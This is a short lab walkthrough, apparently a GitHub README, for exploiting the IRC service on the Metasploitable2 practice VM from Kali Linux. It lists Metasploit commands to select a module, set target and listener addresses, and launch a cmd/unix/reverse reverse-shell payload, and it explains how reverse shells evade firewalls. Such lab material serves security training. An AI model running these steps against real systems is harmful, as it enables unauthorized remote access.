 ### Instructions for Exploiting IRC Port on Metasploitable2 Using Kali Linux

#### Exploit the IRC Service

1. Make sure you are in Metasploit Framework

    ```sh
    msfconsole
    ```

2. Search for the IRC exploit module based on the service version:

    ```sh
    search irc [VERSION]
    ```

    Replace [VERSION] with the version number identified by Nmap.

3. Select the appropriate IRC module:

    ```sh
    use [EXPLOIT_PATH]
    ```

4. Set the necessary options:

    ```sh
    set RHOSTS [TARGET_IP]
    set RPORT [IRC_PORT]
    set LHOST [KALI_IP]
    set LPORT 4444
    ```

    Replace [IRC_PORT] with the port number of the IRC service, [YOUR_IP] with your Kali machine IP, and `4444` is recommended local port for this exploit.feel free to test with your desired port.

5. Set the payload: you can see all the payloads by show payloads command.

    ```sh
    set PAYLOAD cmd/unix/reverse
    ```

    The `cmd/unix/reverse` payload in the Metasploit Framework is a reverse shell payload specifically designed for Unix-based systems. This is recomanded for this attack. feel free to try other PAYLOADs.

    **Reverse Shell Payload:**
    Reverse Shell: A reverse shell is a type of shell where the target machine (the victim) initiates a connection back to the attacker's machine. This is typically used to bypass firewalls and network address translation (NAT).

6. Run the exploit:

    ```sh
    exploit
    ```
